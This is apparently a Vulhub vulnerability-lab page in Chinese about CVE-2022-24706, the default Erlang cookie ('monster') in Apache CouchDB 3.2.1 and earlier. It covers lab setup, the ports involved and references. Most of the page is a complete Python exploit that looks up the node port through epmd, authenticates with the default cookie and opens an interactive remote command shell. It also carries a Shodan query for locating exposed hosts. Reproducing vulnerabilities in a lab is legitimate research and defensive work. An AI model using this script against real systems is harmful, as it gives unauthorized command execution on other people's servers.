

Apache CouchDB 分布式协议代码执行 CVE-2022-24706¶
Apache CouchDB是一个Erlang开发的NoSQL数据库。
由于Erlang的特性，其支持分布式计算，分布式节点之间通过Erlang/OTP Distribution协议进行通信。攻击者如果知道通信时使用的Cookie，即可在握手包通过认证并执行任意命令。
在CouchDB 3.2.1及以前版本中，使用了默认Cookie，值为“monster”。
参考链接：
- https://docs.couchdb.org/en/3.2.2-docs/cve/2022-24706.html
- https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
- https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/misc/erlang_cookie_rce.rb
- https://github.com/sadshade/CVE-2022-24706-CouchDB-Exploit
漏洞环境¶
Vulhub执行如下命令启动一个Apache CouchDB 3.2.1服务：
docker-compose up -d
服务启动后，会监听三个端口：
- 5984: Apache CouchDB Web管理接口
- 4369: Erlang端口映射服务（epmd）
- 9100: 集群节点通信和运行时自省服务（代码执行实际发生在这个端口中）
其中，Web管理接口和epmd服务端口是固定的，而集群通信接口在Vulhub中是9100。实际环境下，这个端口通常是随机的，我们可以通过epmd服务来获取这个端口的数值。
漏洞复现¶
我们可以使用这个POC来利用本漏洞。这个POC会先通过目标的4369端口epmd服务获取集群通信的端口，也就是9100，然后再使用默认Cookie来控制节点执行任意命令。
python poc.py target-ip 4369

漏洞POC¶
# Exploit Title: Remote Command Execution via Erlang Distribution Protocol
# Date: 2022-01-21
# Exploit Author: Konstantin Burov, @_sadshade
# Software Link: https://www.erlang.org/doc/apps/erts/erl_dist_protocol.html
# Version: N/A
# Tested on: Kali 2021.2
# Based on 1F98D's Erlang Cookie - Remote Code Execution
# Shodan: port:4369 "name "
# References:
# https://www.exploit-db.com/exploits/49418
# https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
# https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd#erlang-cookie-rce
#
#
#!/usr/local/bin/python3
import socket
from hashlib import md5
import struct
import sys
import re
import time
TARGET = sys.argv[1]
EPMD_PORT = int(sys.argv[2]) # Default Erlang distributed port
COOKIE = "monster" # Default Erlang cookie for CouchDB
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Request for nodes list
# Some data:
NAME_MSG = b"\x00\x15n\x00\x05\x00\x07\x49\x9cAAAAAA@AAAAAAA"
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"
CTRL_DATA = b"\x83h\x04a\x06gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03"
CTRL_DATA += b"\x00\x00\x00\x00\x00w\x00w\x03rex"
def compile_cmd(CMD):
MSG = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
MSG += struct.pack(">H", len(CMD))
MSG += bytes(CMD, 'ascii')
MSG += b'jw\x04user'
PAYLOAD = b'\x70' + CTRL_DATA + MSG
PAYLOAD = struct.pack('!I', len(PAYLOAD)) + PAYLOAD
return PAYLOAD
print("Remote Command Execution via Erlang Distribution Protocol.\n")
# Connect to EPMD:
try:
epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
print("Couldnt connect to EPMD: %s\n terminating program" % msg)
sys.exit(1)
epm_socket.send(EPM_NAME_CMD) #request Erlang nodes
if epm_socket.recv(4) == b'\x00\x00\x11\x11': # OK
data = epm_socket.recv(1024)
data = data[0:len(data) - 1].decode('ascii')
data = data.split("\n")
if len(data) == 1:
choise = 1
print("Found " + data[0])
else:
print("\nMore than one node found, choose which one to use:")
line_number = 0
for line in data:
line_number += 1
print(" %d) %s" %(line_number, line))
choise = int(input("\n> "))
ERLNAG_PORT = int(re.search("\d+$",data[choise - 1])[0])
else:
print("Node list request error, exiting")
sys.exit(1)
epm_socket.close()
# Connect to Erlang port:
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
sys.exit(1)
s.send(NAME_MSG)
s.recv(5)
challenge = s.recv(1024) # Receive "challenge" message
print(challenge)
challenge = struct.unpack(">I", challenge[9:13])[0]
#print("Extracted challenge: {}".format(challenge))
# Add Challenge Digest
CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii")
+ bytes(str(challenge), "ascii")).digest()
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)
if len(CHALLENGE_RESPONSE) == 0:
print("Authentication failed, exiting")
sys.exit(1)
print("Authentication successful")
print("Enter command:\n")
data_size = 0
while True:
if data_size <= 0:
CMD = input("> ")
if not CMD:
continue
elif CMD == "exit":
sys.exit(0)
s.send(compile_cmd(CMD))
data_size = struct.unpack(">I", s.recv(4))[0] # Get data size
s.recv(45) # Control message
data_size -= 45 # Data size without control message
time.sleep(0.1)
elif data_size < 1024:
data = s.recv(data_size)
#print("S---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
time.sleep(0.1)
print(data[3:].decode())
data_size = 0
else:
data = s.recv(1024)
#print("L---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
time.sleep(0.1)
print(data[4:].decode())
data_size -= 1024